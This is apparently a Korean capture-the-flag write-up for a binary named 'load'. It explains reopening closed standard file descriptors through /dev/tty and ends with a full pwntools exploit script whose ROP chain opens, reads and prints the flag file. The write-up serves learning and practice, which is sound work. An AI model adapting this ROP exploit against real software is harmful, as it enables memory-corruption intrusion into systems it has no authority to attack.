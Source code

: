 아까처럼 **/proc/self/fd/1**을 하면 된다고 생각할 수도 있지만, 이미 해당 값은 `close()`된 상태이기 때문에 불가능합니다. 그래서 실제 `표준 입력 장치`를 나타내는 파일이나 `표준 입력`을 대체할 수 있는게 없을까하며 열심히 구글링해서 찾은게 바로 터미널을 나타내는 `/dev/tty`입니다. 

터미널로 직접 보내주면 사용자에게 보이겠거니 하고 해봤는데, 다행히 잘 됩니다. `puts()`이나 `printf()`를 통하여 화면에 출력하는 것은 기존의 표준 출력인 `fd 1`을 사용하기 때문에, 그를 대체하기 위해서는 마찬가지로 `fd 1`값으로 `/dev/tty`를 연결해줘야 합니다. 기존 `표준 입출력`들을 `close()`해주었기 때문에 새로 `fd`를 할당받으면 **0**부터 생성됩니다.

위의 사항들을 고려하여 `fd`를 만들어준 뒤, 플래그를 읽어 저장하고 출력해주는 **ROP chain**을 구성해주면 됩니다. `pop rdx;`를 할 수 있는 `gadget`은 없으나 대충 `rdx` 값이 **libc**를 가리켜서 무사히 세번째 인자도 줄 수 있습니다. 그냥 깔끔하게 `stderr`까지 세 개의 기본 `fd` 모두 `/dev/tty`로 만들어 준 뒤 `flag`에 대한 `fd`를 생성하고 `read()`와 `puts()`를 통해 플래그를 읽었습니당 



# exploit

```python
#! /usr/bin/python
from pwn import *

r = process('./load')
context.log_level = 'debug'
gdb.attach(r,'b* 0x000040089D') #0x0400 8a8 966


payload1 = '/proc/self/fd/0' + '\x00'
payload1 += '/dev/tty' + '\x00'
payload1 += '/dev/tty' + '\x00'
payload1 += '/dev/tty' + '\x00'
payload1 += './flag' + '\x00'
r.sendlineafter('Input file name: ',payload1)

r.sendlineafter('Input offset: ','0')
r.sendlineafter('Input size: ','400')

string = 0x0601040

payload2 = 'A'*0x38 # dummy
## open('/proc/self/fd/0',0,?)
for i in range(0,3):
	payload2 += p64(0x00400a73) #0x0000000000400a73 : pop rdi ; ret 
	payload2 += p64(string + 0x10 + 0x09*i)
	payload2 += p64(0x0400a71) #0x0400a71 : pop rsi ; pop r15 ; ret
	payload2 += p64(0x02)
	payload2 += p64(0x00)
	payload2 += p64(0x0400710) # open@plt  rdx is very biggg!

payload2 += p64(0x00400a73) # pop rdi; ret
payload2 += p64(0x060106b) # flag string
payload2 += p64(0x0400a71) #0x0400a71 : pop rsi ; pop r15 ; ret
payload2 += p64(0x00)
payload2 += p64(0x00)
payload2 += p64(0x0400710) # open@plt  rdx is very biggg!

payload2 += p64(0x00400a73) # pop rdi; ret
payload2 += p64(0x03) # fd 3 
payload2 += p64(0x0400a71) #0x0400a71 : pop rsi ; pop r15 ; ret
payload2 += p64(0x0601f00) # bss
payload2 += p64(0x00)
payload2 += p64(0x000004006E8) # read@plt

payload2 += p64(0x00400a73) # pop rdi; ret
payload2 += p64(0x0601f00) # bss
payload2 += p64(0x000004006C0) # puts@plt

r.sendline(payload2)
```
